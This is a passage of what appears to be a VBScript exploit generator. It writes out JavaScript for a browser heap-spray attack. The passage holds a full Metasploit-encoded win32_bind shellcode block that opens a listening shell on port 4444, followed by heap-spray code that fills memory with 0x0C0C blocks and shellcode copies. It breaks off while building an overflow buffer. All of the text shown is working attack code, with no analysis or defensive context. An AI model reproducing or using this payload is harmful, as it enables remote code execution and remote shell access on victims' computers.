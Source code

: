 b=b+"" & vbcrlf
b=b+"// win32_bind - EXITFUNC=seh LPORT=4444 Size=696 Encoder=Alpha2 http://metasploit.com " & vbcrlf
b=b+"var shellcode2 = unescape(""%u03eb%ueb59%ue805%ufff8%uffff%u4949%u4949%u4949"" +" & vbcrlf
b=b+" ""%u4949%u4949%u4949%u4949%u4949%u4937%u5a51%u436a"" +" & vbcrlf
b=b+" ""%u3058%u3142%u4150%u6b42%u4141%u4153%u4132%u3241"" +" & vbcrlf
b=b+" ""%u4142%u4230%u5841%u3850%u4241%u7875%u4b69%u724c"" +" & vbcrlf
b=b+" ""%u584a%u526b%u4a6d%u4a48%u6b59%u6b4f%u694f%u416f"" +" & vbcrlf
b=b+" ""%u4e70%u526b%u744c%u4164%u6e34%u376b%u5535%u4c6c"" +" & vbcrlf
b=b+" ""%u714b%u646c%u6145%u7468%u6a41%u6e4f%u626b%u326f"" +" & vbcrlf
b=b+" ""%u6c38%u334b%u376f%u5550%u7851%u316b%u6c59%u504b"" +" & vbcrlf
b=b+" ""%u6e34%u466b%u6861%u456e%u6f61%u6c30%u6c59%u6b6c"" +" & vbcrlf
b=b+" ""%u3934%u4150%u3764%u6877%u6941%u565a%u636d%u4b31"" +" & vbcrlf
b=b+" ""%u7872%u6c6b%u7534%u566b%u3134%u5734%u5458%u6b35"" +" & vbcrlf
b=b+" ""%u6e55%u336b%u556f%u7474%u7841%u416b%u4c76%u464b"" +" & vbcrlf
b=b+" ""%u626c%u6e6b%u416b%u354f%u564c%u6861%u666b%u3663"" +" & vbcrlf
b=b+" ""%u6c4c%u6b4b%u7239%u444c%u5764%u616c%u4f71%u4733"" +" & vbcrlf
b=b+" ""%u6b41%u336b%u4c54%u634b%u7073%u6c30%u534b%u6470"" +" & vbcrlf
b=b+" ""%u6c4c%u724b%u4550%u4e4c%u6c4d%u374b%u7530%u7358"" +" & vbcrlf
b=b+" ""%u426e%u4c48%u524e%u466e%u586e%u566c%u3930%u586f"" +" & vbcrlf
b=b+" ""%u7156%u4676%u7233%u6346%u3058%u7033%u3332%u5458"" +" & vbcrlf
b=b+" ""%u5237%u4553%u5162%u504f%u4b54%u5a4f%u3370%u6a58"" +" & vbcrlf
b=b+" ""%u686b%u596d%u456c%u466b%u4930%u596f%u7346%u4e6f"" +" & vbcrlf
b=b+" ""%u5869%u7365%u4d56%u5851%u366d%u6468%u7242%u7275"" +" & vbcrlf
b=b+" ""%u674a%u5972%u6e6f%u7230%u4a48%u5679%u6b69%u6e45"" +" & vbcrlf
b=b+" ""%u764d%u6b37%u584f%u3356%u3063%u5053%u7653%u7033"" +" & vbcrlf
b=b+" ""%u3353%u5373%u3763%u5633%u6b33%u5a4f%u3270%u5046"" +" & vbcrlf
b=b+" ""%u3568%u7141%u304c%u3366%u6c63%u6d49%u6a31%u7035"" +" & vbcrlf
b=b+" ""%u6e68%u3544%u524a%u4b50%u7177%u4b47%u4e4f%u3036"" +" & vbcrlf
b=b+" ""%u526a%u3130%u7041%u5955%u6e6f%u3030%u6c68%u4c64"" +" & vbcrlf
b=b+" ""%u546d%u796e%u3179%u5947%u596f%u4646%u6633%u6b35"" +" & vbcrlf
b=b+" ""%u584f%u6350%u4b58%u7355%u4c79%u4146%u6359%u4b67"" +" & vbcrlf
b=b+" ""%u784f%u7656%u5330%u4164%u3344%u7965%u4e6f%u4e30"" +" & vbcrlf
b=b+" ""%u7173%u5878%u6167%u6969%u7156%u6269%u3977%u6a6f"" +" & vbcrlf
b=b+" ""%u5176%u4945%u4e6f%u5130%u5376%u715a%u7274%u6246"" +" & vbcrlf
b=b+" ""%u3048%u3063%u6c6d%u5a49%u6345%u625a%u7670%u3139"" +" & vbcrlf
b=b+" ""%u5839%u4e4c%u4d69%u5337%u335a%u4e74%u4b69%u5652"" +" & vbcrlf
b=b+" ""%u4b51%u6c70%u6f33%u495a%u336e%u4472%u6b6d%u374e"" +" & vbcrlf
b=b+" ""%u7632%u6e4c%u6c73%u704d%u767a%u6c58%u4e6b%u4c4b"" +" & vbcrlf
b=b+" ""%u736b%u5358%u7942%u6d6e%u7463%u6b56%u304f%u7075"" +" & vbcrlf
b=b+" ""%u4b44%u794f%u5346%u706b%u7057%u7152%u5041%u4251"" +" & vbcrlf
b=b+" ""%u4171%u337a%u4231%u4171%u5141%u6645%u6931%u5a6f"" +" & vbcrlf
b=b+" ""%u5070%u6e68%u5a4d%u5679%u6865%u334e%u3963%u586f"" +" & vbcrlf
b=b+" ""%u6356%u4b5a%u4b4f%u704f%u4b37%u4a4f%u4c70%u614b"" +" & vbcrlf
b=b+" ""%u6b47%u4d4c%u6b53%u3174%u4974%u596f%u7046%u5952"" +" & vbcrlf
b=b+" ""%u4e6f%u6330%u6c58%u6f30%u577a%u6174%u324f%u4b73"" +" & vbcrlf
b=b+" ""%u684f%u3956%u386f%u4350"");" & vbcrlf
b=b+"" & vbcrlf
b=b+"" & vbcrlf
b=b+"  var bigblock = unescape(""%u0C0C%u0C0C"");" & vbcrlf
b=b+"  var headersize = 20;" & vbcrlf
b=b+"  var slackspace = headersize + shellcode1.length;" & vbcrlf
b=b+"  while (bigblock.length < slackspace) bigblock += bigblock;" & vbcrlf
b=b+"  var fillblock = bigblock.substring(0,slackspace);" & vbcrlf
b=b+"  var block = bigblock.substring(0,bigblock.length - slackspace);" & vbcrlf
b=b+"  while (block.length + slackspace < 0x40000) block = block + block + fillblock;" & vbcrlf
b=b+"" & vbcrlf
b=b+"  " & vbcrlf
b=b+"" & vbcrlf
b=b+"  var memory = new Array();" & vbcrlf
b=b+"  for (i = 0; i < 400; i++){ memory[i] = block + shellcode1 }" & vbcrlf
b=b+"  " & vbcrlf
b=b+"  var buf = '';" & vbcrlf
b=b+"  while (buf.length < 32) buf = buf + unescape(""%0C"");" & vbcrlf